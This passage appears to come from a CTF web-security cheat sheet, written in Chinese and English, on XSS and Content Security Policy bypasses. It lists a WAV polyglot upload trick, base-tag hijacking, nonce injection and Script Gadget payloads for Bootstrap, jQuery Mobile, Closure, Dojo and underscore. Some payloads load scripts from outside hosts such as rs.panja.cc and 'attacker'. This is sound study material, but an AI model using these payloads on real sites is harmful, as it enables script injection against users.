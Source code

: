 - 文件XSS
    - Example: PlaidCTF 2018 wave XSS
    - 上传.wave档 (会检查signatures)
      ```
        RIFF`....WAVE...` 
        alert(1); 
        function RIFF(){}
      ```
        - 变成合法的js语法
        - wave在apache mime type中没有被定义
        - `<script src="uploads/this_file.wave">`

## CSP evaluator

https://csp-evaluator.withgoogle.com/

## Bypass CSP

- base
    - 改变资源载入的域，引入恶意的js
    - `<base href ="http://rs.panja.cc/">`
    - RCTF 2018 - rBlog

- script nonce
    
    ```
     <p>可控内容<p>
     <script src="xxx" nonce="AAAAAAAAAAA"></script>
    ```

    插入`<script src="http//rs.panja.cc/uccu.js" a="`

    ```
     <p><script src="http//rs.panja.cc/uccu.js" a="<p>
     <script src="xxx" nonce="AAAAAAAAAAA"></script>
    ```

- Script Gadget
    - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
    - is an **existing** JS code on the page that may be used to bypass mitigations
    - Bypassing CSP strict-dynamic via Bootstrap
        - `<div data-toggle=tooltip data-html=true title='<script>alert(1)</script>'></div>`
    - Bypassing sanitizers via jQuery Mobile
        - `<div data-role=popup id='--><script>alert(1)</script>'></div>`
    - Bypassing NoScript via Closure (DOM clobbering)
        - `<a id=CLOSURE_BASE_PATH href=http://attacker/xss></a>`
    - Bypassing ModSecurity CRS via Dojo Toolkit
        - `<div data-dojo-type="dijit/Declaration" data-dojo-props="}-alert(1)-{">`
    - Bypassing CSP unsafe-eval via underscore templates
        - `<div type=underscore/template> <% alert(1) %> </div>`
    - 0CTF 2018 - h4xors.club2
- google analytics ea
    - ea is used to log actions and can contain arbitrary string
    - Google CTF 2018 - gcalc2
